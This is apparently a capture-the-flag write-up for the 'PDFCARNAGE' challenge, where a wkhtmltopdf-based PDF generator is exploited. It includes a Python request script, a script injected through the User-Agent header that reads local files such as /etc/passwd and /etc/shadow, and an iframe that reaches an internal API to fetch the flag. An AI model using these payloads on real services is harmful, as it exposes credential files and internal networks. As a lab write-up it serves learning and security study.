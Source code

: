 # PDFCARNAGE

For this challenge, we get a link to a website. Its only feature is to generate a pdf with custom content.

## Finding and exploiting the vulnerability

I first tried to find out which tool actually generates the pdf files. This was pretty simple to find, as I just had to open the file with e.g. Adobe Acrobat and look at the metadata.
The website seems to be running wkhtmltopdf 0.12.5!

I googled for exploits with this tool and quickly found out, that it has a XSS vulnerability which can be used for LFI (Local File Inclusion) of the backend. To exploit it, I just need to put my script into the User-Agent header. After playing around with it, I also found out that the generator prints out the result of the script, which really helps.

I used this code to quickly generate the pdfs:

```python
import requests
import time

with open("payload.html") as f:
    UA = f.read().replace("\n", "")

res = requests.post(
    "http://pdfcarnage.rumble.host/pdf",
    {"pdf_form": time.time()},
    headers={"User-Agent": UA},
)

with open("/tmp/pdf.pdf", "wb") as f:
    f.write(res.content)
```

And this payload to retrieve file contents:

```html
<script>
    x = new XMLHttpRequest();
    x.open('GET', 'file:///etc/passwd', false);
    x.send();
    document.write('<pre>' + x.responseText + '</pre>');
</script>
```

## Finding something useful

But how should we now find the flag? The usual places like /flag or /root/flag.txt are not available. By chance I found out that we can even read /etc/shadow but nothing unusual inside. I found the kind of web framework running by reading /etc/hostname (flask) and that the pdf is always temporarely saved inside /tmp/.

Then I actually found something interesting. /root/.bash_history contains something... 

```bash
cat /etc/passwd
top
ps
```

But this didn't lead me any further...

After another while of not finding anything, I found out that there is a nodeapi running in another container by reading /etc/hosts!

## The API

Now we just have to find the proper endpoint. The port for the API was 3000 so I was able to call the api with

```html
<iframe src="http://172.16.5.54:3000"></iframe>
```

After some lucky guessing I also found out where the flag was:

```
http://172.16.5.54:3000/api/flag
```